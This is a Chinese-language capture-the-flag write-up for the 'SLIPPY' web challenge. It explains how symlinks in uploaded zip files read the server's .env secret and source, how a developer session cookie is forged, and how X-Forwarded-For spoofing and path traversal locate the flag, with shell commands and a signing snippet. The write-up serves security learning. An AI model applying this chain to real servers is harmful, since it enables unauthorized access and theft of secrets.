SLIPPY 这是一道 web 题，给了源码，主要的源码有两个，一个是 server.js ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 const express = require ('express' );const session = require ('express-session' );const path = require ('path' );const fs = require ('fs' );require ('dotenv' ).config ();const app = express ();app.use (express.urlencoded ({ extended : false })); app.use (express.static ('public' )); const store = new session.MemoryStore ();const sessionData = { cookie : { path : '/' , httpOnly : true , maxAge : 1000 * 60 * 60 * 48 }, userId : 'develop' }; store.set ('<REDACTED>' , sessionData, err => if (err) console .error ('Failed to create develop session:' , err); else console .log ('Development session created!' ); }); app.use (session ({ secret : process.env .SESSION_SECRET , resave : false , saveUninitialized : false , store : store })); app.set ('view engine' , 'ejs' ); app.set ('views' , path.join (__dirname, 'views' )); app.set ('trust proxy' , true ); const uploadsDir = path.join (__dirname, 'uploads' );if (!fs.existsSync (uploadsDir)) fs.mkdirSync (uploadsDir);const indexRoutes = require ('./routes/index' );app.use ('/' , indexRoutes); app.listen (3000 , () => { console .log ('Server running at http://localhost:3000' ); });
还有一个是 index.js ：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 const express = require ('express' );const multer = require ('multer' );const path = require ('path' );const { execFile } = require ('child_process' );const fs = require ('fs' );const ensureSession = require ('../middleware/session' );const developmentOnly = require ('../middleware/developmentOnly' );const router = express.Router ();router.use (ensureSession); const upload = multer ({ dest : '/tmp' });router.get ('/' , (req, res ) => { res.render ('index' , { sessionId : req.session .userId }); }); router.get ('/upload' , (req, res ) => { res.render ('upload' ); }); router.post ('/upload' , upload.single ('zipfile' ), (req, res ) => { const zipPath = req.file .path ; const userDir = path.join (__dirname, '../uploads' , req.session .userId ); fs.mkdirSync (userDir, { recursive : true }); execFile ('unzip' , [zipPath, '-d' , userDir], (err, stdout, stderr ) => { fs.unlinkSync (zipPath); if (err) { console .error ('Unzip failed:' , stderr); return res.status (500 ).send ('Unzip error' ); } res.redirect ('/files' ); }); }); router.get ('/files' , (req, res ) => { const userDir = path.join (__dirname, '../uploads' , req.session .userId ); fs.readdir (userDir, (err, files ) => { if (err) return res.status (500 ).send ('Error reading files' ); res.render ('files' , { files }); }); }); router.get ('/files/:filename' , (req, res ) => { const userDir = path.join (__dirname, '../uploads' , req.session .userId ); const requestedPath = path.normalize (req.params .filename ); const filePath = path.resolve (userDir, requestedPath); if (!filePath.startsWith (path.resolve (userDir))) { return res.status (400 ).send ('Invalid file path' ); } if (fs.existsSync (filePath) && fs.statSync (filePath).isFile ()) { res.download (filePath); } else { res.status (404 ).send ('File not found' ); } }); router.get ('/debug/files' , developmentOnly, (req, res ) => { const userDir = path.join (__dirname, '../uploads' , req.query .session_id ); fs.readdir (userDir, (err, files ) => { if (err) return res.status (500 ).send ('Error reading files' ); res.render ('files' , { files }); }); }); module .exports = router;
先看 index.js ，可以看到有个 upload 的路由，功能代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 router.post ('/upload' , upload.single ('zipfile' ), (req, res ) => { const zipPath = req.file .path ; const userDir = path.join (__dirname, '../uploads' , req.session .userId ); fs.mkdirSync (userDir, { recursive : true }); execFile ('unzip' , [zipPath, '-d' , userDir], (err, stdout, stderr ) => { fs.unlinkSync (zipPath); if (err) { console .error ('Unzip failed:' , stderr); return res.status (500 ).send ('Unzip error' ); } res.redirect ('/files' ); }); });
看上去好像可以上传一个 zip 文件，然后他会用 execFile('unzip', [zipPath, '-d', userDir]) 来解压这个 zip 文件到一个 userDir ，这个 userDir 的创建逻辑是 ../uploads + userId 。
因此这里，我们可以尝试进行命令注入，可以看看 文件名 和 userId 我们是否可控。
同时，也可以尝试进行路径穿越，因为代码看上去是没有对 zipPath 进行处理的，因此我们可以把文件名命名为 ../../ 开头的形式，来尝试进行路径穿越，把文件解压到别的目录。
继续看下面的 files 路由：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 router.get ('/files/:filename' , (req, res ) => { const userDir = path.join (__dirname, '../uploads' , req.session .userId ); const requestedPath = path.normalize (req.params .filename ); const filePath = path.resolve (userDir, requestedPath); if (!filePath.startsWith (path.resolve (userDir))) { return res.status (400 ).send ('Invalid file path' ); } if (fs.existsSync (filePath) && fs.statSync (filePath).isFile ()) { res.download (filePath); } else { res.status (404 ).send ('File not found' ); } });
看上去就是让我们下载刚才解压好的文件。
看到这里，我想到或许我们可以上传一个 软链接 ，然后再下载这个软链接，我们或许就能拿到该链接所指向的那个文件了。
再接下来是个 /debug/files 路由：
1 2 3 4 5 6 7 router.get ('/debug/files' , developmentOnly, (req, res ) => { const userDir = path.join (__dirname, '../uploads' , req.query .session_id ); fs.readdir (userDir, (err, files ) => { if (err) return res.status (500 ).send ('Error reading files' ); res.render ('files' , { files }); }); });
这段代码里的 readdir 应该是会读取 userDir 这个变量的文件路径下的所有文件，然后展示给我们。
这个 userDir 的获取逻辑有个 req.query.session_id ，这是我们可以通过 url 传入的变量，是可控的，而且是和 uploads 直接拼接，这里应该会存在路径穿越。
但是，这个路由有个 developmentOnly ，这个的源代码如下：
1 2 3 4 5 6 module .exports = function (req, res, next ) { if (req.session .userId === 'develop' && req.ip == '127.0.0.1' ) { return next (); } res.status (403 ).send ('Forbidden: Development access only' ); };
看上去就是个访问的校验，如果我们满足 userId 是 develop ，并且 req.ip 为 127.0.0.1，就能使用刚才的 /debug/files 路由。
问了 AI，他说 req.ip 容易受到 X-Forwarded-For 这个 HTTP 请求头的影响而被伪造，那接下来的问题就在于，怎么让 userId 是 develop。
在一开始给的 server.js 里面，我们看到这样一段代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 const sessionData = { cookie : { path : '/' , httpOnly : true , maxAge : 1000 * 60 * 60 * 48 }, userId : 'develop' }; store.set ('<REDACTED>' , sessionData, err => if (err) console .error ('Failed to create develop session:' , err); else console .log ('Development session created!' ); }); app.use (session ({ secret : process.env .SESSION_SECRET , resave : false , saveUninitialized : false , store : store }));
在这里就出现了 develop 这个 userId 。
这段代码是创建并且存了一个 userId 为 develop 的 session ，其中重要的部分为 <REDACTED> 和 SESSION_SECRET ，这些应该都是我们后续需要获取到的，获取到他们之后，我们就可以创造一模一样的 develop 的 session 了。
同时还有一个很重要的信息，那就是题目给的 Dockerfile 提供了 flag 的位置：
1 RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8) " ; mkdir "$rand_dir " && echo "TFCCTF{Fake_fLag}" > "$rand_dir /flag.txt" && chmod -R +r "$rand_dir "
也就是说，flag 每次都是在根目录下的一个随机文件名下，我们没法直接获取到 flag 的位置，必须先知道这个随机文件名是什么才可以。
因此，总体的思路就是，伪造一个 develop 的 session ，走 /debug/files 路由查看根目录的文件，再查看 flag 。
启动题目的本地 docker ，查看一下 web 页面：

说是可以上传一个 zip 文件，这和我们刚才分析的一样，并且还提供了我们一个 Session ID，应该是为了让我们看看自己是否是 develop ？
查看一下 Cookie ，因为这通常就是后台鉴别我们是哪个 session 的关键：
1 Cookie:connect.sid=s%3AqjWsoge3FMrbqjQmGG5rzy6I_MX0Tatu.1Ujge2Br%2FEeeJJLis%2Fw1ArMclERRnH93iBgoy%2FOPzXc
这个 cookie 也是比较标准的 express-session 的形式，就是源代码里使用的 session 控制。
查看 docker 的文件列表发现，有个 .env ，查看其内容，发现了 SESSION_SECRET ：

这里是 <REDACTED> 在实际的题目容器里面应该是个确切的值。
在 web 页面里面，点去 upload 那里，我们可以上传一个 zip 文件：

前面的分析中提到，我们上传 zip 文件之后，后台会对这个文件进行解压，并且会给我们提供下载解压后的文件的功能。
为了得到 .env ，我们可以尝试创建一个软链接，指向 .env ，然后下载该软链接看看。
在 docker 以及前面的代码中我们可以看到，我们上传的文件目录是在 uploads/<userId> 里面：

所以我们要创建指向 ../../.env 的软链接，并压缩：
1 2 3 4 5 6 ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ ln -s '../../.env' aaa ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ zip -y poc.zip aaa adding: aaa (stored 0%)
上传之后，看到了我们上传的文件列表：

下载之后，我们获得了在 docker 里的 .env ：

说明软链接可行。
除了这个 .env 之外，我们还得知道 server.js 里的 develop 的 session ID 才行，同样用软链接就好。
等获取完两个东西之后，我们还得知道怎么伪造 develop 的 cookie 才行。
问了一下 deepseek ，它给了我一个代码：
1 2 3 const signature = require ('cookie-signature' );const sid = 's:' + signature.sign ('<SESSION ID>' , '<SESSION_SECRET>' );console .log (sid);
下面就开环境打了。
构造两个软链接，获取 SESSION_SECRET 和 SESSION ID ：
1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ ln -s '../../.env' aaa ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ zip -y poc.zip aaa adding: aaa (stored 0%) ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ ln -s '../../server.js' bbb ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ zip -y poc.zip bbb adding: bbb (stored 0%)



用这两个内容，在 docker 里用刚才的 js 代码获取 develop 的 cookie：
1 s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE
用该 cookie 访问网页试试：

现在我们变成了 develop ，配合 X-Forwarded-For 头，我们可以访问 /debug/files 路由：

他说 PATH 是空的，是因为前面的代码中我们看到，该路由还需要传递 session_id 参数才行，那我们就给他 session_id=../../../../ :

可以看到页面显示出来了根目录的文件，那个框起来的随机文件名里面应该就存在着 flag ，这里还没法直接下载，还得创造一个软链接来指向里面的 flag，才能下载：
1 2 3 4 5 6 ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ ln -s '../../../../../tlhedn6f/flag.txt' flag ┌──(kali㉿kali)-[~/ctf/TCTF] └─$ zip -y poc.zip flag adding: flag (stored 0%)
上传这个 zip 文件之后，下载其中的 flag：
